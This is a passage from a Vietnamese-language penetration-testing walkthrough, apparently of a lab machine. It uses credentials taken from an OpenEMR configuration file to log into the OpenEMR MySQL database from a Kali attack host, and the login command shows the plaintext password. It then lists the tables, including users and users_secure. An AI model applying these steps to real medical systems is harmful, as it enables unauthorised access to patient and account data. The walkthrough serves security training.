 ```

$sqlconf = array();
global $sqlconf;
$sqlconf["host"]= $host;
$sqlconf["port"] = $port;
$sqlconf["login"] = $login;
$sqlconf["pass"] = $pass;
$sqlconf["dbase"] = $dbase;
...
```

### OpenEMR Database Enumeration

Với thông tin xác thực đã được tìm thấy, kết nối với cơ sở dữ liệu và xem có thể tìm thấy gì. Nếu chưa cài đặt `mysql` client trên máy tấn công, có thể cài đặt như sau.

```
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install -y default-mysql-client
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
...
```

Sau khi cài đặt xong client, kết nối với cơ sở dữ liệu.

```
──(kali㉿kali)-[~]
└─$ mysql -u openemr -p C78maEQUIEuQ -D openemr -h 192.168.120.204
...
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [openemr]>
```

Bắt đầu bằng cách liệt kê các bảng có sẵn.

```
MariaDB [openemr]> show tables;
+---------------------------------------+
| Tables_in_openemr                     |
+---------------------------------------+
| addresses                             |
| amc_misc_data                         |
| amendments                            |
...
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| version                               |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
```

